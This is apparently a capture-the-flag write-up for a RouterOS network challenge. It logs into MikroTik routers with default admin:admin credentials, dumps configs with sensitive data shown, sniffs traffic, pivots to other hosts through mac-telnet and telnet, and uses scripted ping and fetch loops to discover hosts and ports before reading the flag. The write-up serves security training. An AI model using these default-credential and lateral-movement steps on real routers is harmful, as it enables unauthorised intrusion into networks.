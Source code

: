 # SSH

Scanning the port reveals an SSH service running on the port. 

Using `admin:admin` gives access to a Mikrotik box `jumphost`. The RouterOS has it's own shell with limited tools and functionality.

```bash
ssh admin@10.10.9.11 -p 20242
```

![](screenshots/1.png)

# Looking around

Checking the config doesn't show anything useful. The flag is not there.

```
/export show-sensitive verbose
```

# Passive Scanning

Scanning from the perimeter router is possible with a few built-in tools (20561 is used by the mac-telnet, see later).

```
/tool/ip-scan
/tool/mac-scan
/tool/sniffer/quick port!=20561
```

![](screenshots/3.png)

This reveals further hosts. 

# Lateral movement

Those hosts are also running RouterOS, as we can connect to them with the mac-telnet utility, with the same `admin:admin` credentials.

```
/tool/mac-telnet 52:55:0A:00:02:02 # jumphost
/tool/mac-telnet 52:55:0A:00:02:03 # jumphost
/system/telnet 10.0.2.15 # jumphost
/system/telnet 10.3.6.49 # MikroTik
```

![](screenshots/4.png)

While we have little more permissions on those hosts, the sniffing doesn't reveal any new useful information. DHCP leases doesn't reveal anything.

Checking the next config don't show anything useful. The flag is not there either.


# Active Scanning

## Routes 

The routing information reveal some other subnets.

```
/ip route print
```

![](screenshots/5.png)

## Host discovery

The shell has scripting capabilities with ping can be utilized to scan for even more hosts.

```
:for i from=1 to=255 do={ /ping "10.3.6.$i" count=1 }
```

![](screenshots/7.png)
![](screenshots/6.png)

Running it on all hosts reveals an extra host reachable from the internal machines, `10.3.6.50`.

## Port scanning

The scripting and the fetch tool can be used to scan for ports (http). Fortunately there is a reply on closed ports, so waiting for timeout is not required and the scan goes relatively fast.

```
:for i from=1 to=65535 do={ :do { /tool/fetch output=user http-method=get url="http://10.3.6.50:$i/" } on-error={ :put $i } }
```

![](screenshots/8.png)

On port 80, there is a mikrotik login page.

![](screenshots/9.png)


# Telnet

Using the telnet utility to move to that box reveals the flag in the banner.

```
/system/telnet 10.3.6.50 # p1
```

![](screenshots/10.png)

# Flag

`CQ24{ROUTEROS-CREATIVE-DISCOVERY-METHODOLOGIES}`